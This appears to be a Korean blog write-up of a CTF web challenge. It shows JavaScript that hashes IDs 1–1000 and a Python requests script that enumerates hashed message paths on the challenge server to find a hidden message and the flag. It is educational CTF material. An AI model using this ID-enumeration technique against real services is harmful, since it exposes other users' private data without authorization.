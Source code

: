 ```yaml
---
layout: post
title: "Doors Everywhere3"
image: GR1.png
date: 2025-07-10 14:55:00 +0900
tags: [web, hacking]
categories: web
---
```


Google Beginner's Request

Doors Everywhere3

***

**Google Beginner's Request - Doors Everywhere3**

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/1.png)

Doors Everywhere3
비밀 메세지를 볼 수 없다고 설명하고 있다.

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/2.png)

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/3.png)


로그인 뒤 비밀 메세지 안에 개발자 도구를 확인하니
generateHash를 통해 비밀 ID를 해시값으로 변경 후 
그 값으로 Secret ID를 생성 하는 로직이며,
Secret ID를 Path로 입력 시 그 메세지를 확인할 수 있는 로직이다.

개발자 도구의 주석에서 뭐라고 적혀있긴 한데
번역기를 돌려놔서 그런지 잘 모르겠다;;

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/4.png)

어쨌든 generateHash에 들어가는 value값을 변경 시
Secret ID에 원하는 값이 나온다.

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/5.png)

1의 값을 generateHash로 변경 후 path에 입력 시
비밀 메세지의 예시가 나온다.

# 따라서

1~1000까지의 값들을 Hash로 변경 후
path에 대입하면 값이 나올 것이다.

***

1. 1~1000까지의 해시값 얻기

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/6.png)

1~1000까지의 값을 콘솔로 얻어낸다.

사용한 코드

{% highlight js %}
function generateHash(messageId) {
    const hashHex = sha3_256(messageId.toString());
    console.log(`ID: ${messageId} → Hash: ${hashHex}`);
}

// 1부터 1000까지 해시 생성
for (let i = 1; i <= 1000; i++) {
    generateHash(i);
}
{% highlight %}

2. python을 통해 값 얻어내기

얻어낸 1~1000까지의 값을 대입하여 본다.

존재하지 않는 값을 기준으로 잡고,
그 값의 text 길이와 동일하지 않다면 값을 출력하는 로직이다.

{% highlight python %}
import requests
import time
cookies = {
    'session': '[세션값]',
}
import warnings
warnings.filterwarnings('ignore')
headers = {
    'Host': 'secuweb-web.2024-bq.ctfcompetition.com',
    'Sec-Ch-Ua': '"Not)A;Brand";v="8", "Chromium";v="138", "Google Chrome";v="138"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    # 'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7',
    'Priority': 'u=0, i',
    # 'Cookie': 'session=.[세션값]',
}

a=["67b176705b46206614219f47a05aee7ae6a3edbe850bbbe214c536b989aea4d2",
"b1b1bd1ed240b1496c81ccf19ceccf2af6fd24fac10ae42023628abbe2687310",
...
"006e9d54d7ebe3029abf15866b51294ce3defb2bc2c27762570819f0959b250499"]

OriginResponse = requests.get(
    f'https://secuweb-web.2024-bq.ctfcompetition.com/message/1666',
    cookies=cookies,
    headers=headers,
    verify=False,
)

count = 0
for i in a:
    count+=1
    response = requests.get(
        f'https://secuweb-web.2024-bq.ctfcompetition.com/message/{i}',
        cookies=cookies,
        headers=headers,
        verify=False,
    )
    if len(OriginResponse.text) != len(response.text):
        print(response.text)
        print(count)
        print(i)

{% endhighlight %}

하다보면 이렇게 손으로 하는 건 아닌지 걱정도 해주고

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/7.png)

레고 세트 교환식도 한다.

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/8.png)

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/9.png)

여튼 Flag 획득
**시행착오**

1. PHP 내에 있는 기능을 python으로 옮겨오기가 힘들었다.